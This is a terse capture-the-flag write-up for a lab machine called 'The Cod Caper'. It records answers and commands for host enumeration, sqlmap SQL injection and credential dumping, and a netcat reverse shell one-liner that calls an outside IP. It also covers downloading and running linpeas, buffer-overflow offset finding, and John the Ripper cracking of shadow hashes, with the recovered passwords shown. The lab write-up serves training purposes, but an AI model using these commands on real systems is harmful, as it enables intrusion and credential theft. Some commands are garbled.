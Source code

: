 # Machine NAME : The Cod Caper
# Machine IP : 10.10.110.116

***TASK 1 : Intro***

***TASK 2 : Host Enumeration***
1. How many ports are open on the target machine? : 2 <br>
2. What is the http-title of the web server? : Apache2 Ubuntu Default Page: It works <br>
3. What version is the ssh service? : OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 <br>
4. What is the version of the web server? : Apache/2.4.18 <br>

***TASK 3: Web Enumeration***<br>
1. What is the name of the important file on the server? <br>
: /administrator.php <br>

***TASK 4: Web Exploitation***<br>
1.sqlmap -u {IP} --data "username=&password="  --form <br>
2.sqlmap -u {IP} --data "username=&password=" --data 'username=&password='-a  <br>
 &nbsp;2.1 do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y<br>
 &nbsp;2.2. do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y<br>
 &nbsp;2.3. what dictionary do you want to use : 1<br>
  &nbsp;&nbsp; [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)<br>
  &nbsp;&nbsp; [2] custom dictionary file<br>
  &nbsp;&nbsp; [3] file with list of dictionary files<br>
  &nbsp; 2.4. do you want to use common password suffixes? (slow!) [y/N] N<br>
3.sqlmap -u http://{IP}/administrator.php --data 'username=&password=' --dbs<br>
4.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users --tables<br>
5.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users -T users --dump<br>

1.What is the admin username? : pingudad<br>
2.What is the admin password? : secretpass<br>
3.How many forms of SQLI is the form vulnerable to? 3<br>


***TASK 5: Command Execution***<br>
1.How many files are in the current directory? 3<br>
2.Do I still have an account : yes<br>

3 What is my ssh password? :pinguapingu<br>
&nbsp; 3.1 reverse shell command<br>
       - Listen Command : nc -lvnp 4444<br>
       - reverse shell connect command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f<br>
       - I thinked for find ssh password<br>
       - 1st See that log file ...if the "/var" directory?<br>
       - ssh password is<br>

***TASK 6: LinEnum***<br>
1. What is the interesting path of the interesting suid file? : /opt/secret/root<br>
- python3 -m http.server 780<br>
- wget http://{IP}/linpeas.sh<br>
- ./linpeas.sh <br>

***TASK 7: pwndbg***<br>
***TASK 8: Binary-Exploitation : Manually***<br>
***TASK 9: Binary-Exploitation : The pwntools way***<br>
1. cyclic 50<br>
2. echo "cyclic 50" | ./root2<br>
3. check the hex value : dmesg<br>
4. python2 ./cylic -l bytes<br>

***Task 10: Finishing the job*** <br>
1.papa crack passwd file using john the ripper<br>
 #john --wordlist=/usr/share/wordlists/rockyou.txt shadow<br>
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"<br>
Use the "--format=md5crypt-long" option to force loading these as that type instead<br>
Using default input encoding: UTF-8<br>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])<br>
Press 'q' or Ctrl-C to abort, almost any other key for status<br>
***postman          (papa)***<br>
1g 0:00:00:00 DONE (2020-05-27 17:22) 1.886g/s 40754p/s 40754c/s 40754C/s spices..playball<br>
Use the "--show" option to display all of the cracked passwords reliably<br>
Session completed<br>

2.root crack passwd file using john the ripper<br>
#john --wordlist=/usr/share/wordlists/rockyou.txt shadow                                                     <br>
Warning: only loading hashes of type "sha512crypt", but also saw type "md5crypt"<br>
Use the "--format=md5crypt" option to force loading hashes of that type instead<br>
Using default input encoding: UTF-8<br>
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])<br>
Cost 1 (iteration count) is 5000 for all loaded hashes<br>
Press 'q' or Ctrl-C to abort, almost any other key for status<br>
0g 0:00:00:07 0.04% (ETA: 23:00:56) 0g/s 872.7p/s 872.7c/s 872.7C/s horoscope..crazy8<br>
0g 0:00:01:50 0.46% (ETA: 00:09:43) 0g/s 724.4p/s 724.4c/s 724.4C/s alex55..Bulldog<br>
0g 0:00:01:51 0.47% (ETA: 00:09:03) 0g/s 725.6p/s 725.6c/s 725.6C/s vivita..tazzman<br>
***love2fish        (root)***<br>
1g 0:00:04:57 DONE (2020-05-27 17:39) 0.003366g/s 807.5p/s 807.5c/s 807.5C/s lovelife07..lossims
Use the "--show" option to display all of the cracked passwords reliably<br>
Session completed<br>


